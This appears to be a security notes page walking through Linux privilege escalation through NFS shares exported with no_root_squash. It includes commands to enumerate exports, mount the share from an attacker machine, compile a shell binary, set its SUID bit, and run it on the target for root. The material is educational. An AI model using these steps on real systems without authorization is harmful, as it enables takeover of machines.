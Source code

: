 # NFS

**Refer to the following notes for more information on NFS:**&#x20;

{% embed url="https://jarrettgxz-sec.gitbook.io/offensive-security/network-services-vulnerability-scanning-and-exploitation/111-2049-rpc-nfs" %}

**From the target machine** (remote shell)

The _NFS_ (Network File Sharing) configuration is found in the `/etc/exports`file. The important element for privilege escalation is present with the `no_root_squash` value. With this value, we are able to create a `SUID` executable binary on the target machine via the _NFS_ connection, and execute it to gain a root shell.

```bash
$ cat /etc/exports
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
...
```

**We can use the `showmount` command to show the mountable shares on the target machine** (from our attacker machine)

```bash
$ showmount -e <target_ip_add>
Export list for <target_ip_add>:
/tmp                      *
/home/backup              *


# nmap with a specialized script can be used to discover NFS mount points too
$ nmap --script=... <target_ip_addr> over
```

**To be ran as root on the attacker machine** (mount the file system for the target machine)

1. Create temporary directory
2. Mount the shares on the target machine (the mount point should be one with the `no_root_squash` option set)
3. Create a _**C**_ program to gain root shell
4. Compile the _**C**_ code to binary
5. Set the SUID bit on the output binary

```bash
root@attacker# mkdir /tmp/tmp_mnt_folder
root@attacker# mount -o rw <target_ip_addr>:<mount_point> /tmp/tmp_mnt_folder
root@attacker# vim shell.c
...
# load the shell program
...

root@attacker# cd /tmp/tmp_mnt_folder
root@attacker:/tmp/tmp_mnt_folder#
root@attacker:/tmp/tmp_mnt_folder# gcc shell.c -o shell
root@attacker:/tmp/tmp_mnt_folder# chmod +s shell
```

**On the target machine**

1. Navigate to the directory where the `SUID` bit binary is present
2. Run the binary to gain a root shell

```bash
$ ./shell

root@target# id
...
```

